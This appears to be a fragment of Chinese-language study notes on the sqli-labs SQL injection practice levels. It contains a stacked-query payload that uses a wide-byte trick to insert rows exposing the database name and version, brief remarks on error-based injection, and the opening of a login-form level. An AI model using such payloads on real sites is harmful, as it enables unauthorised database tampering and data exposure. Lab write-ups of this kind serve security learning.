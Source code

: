 payload:

`?id=1%df';insert into users values(99,database(),version()); `

`?id=99`

less 39,整形

41和39的区别 39会输出报错信息,其实可以采用报错注入

# less 42

进来之后是一个登录框

![image-20210120204701419](sqlilabs/image-20210120204701419.png)

跟二次注入那个一模一样,但是我们不能自己new user

源码:
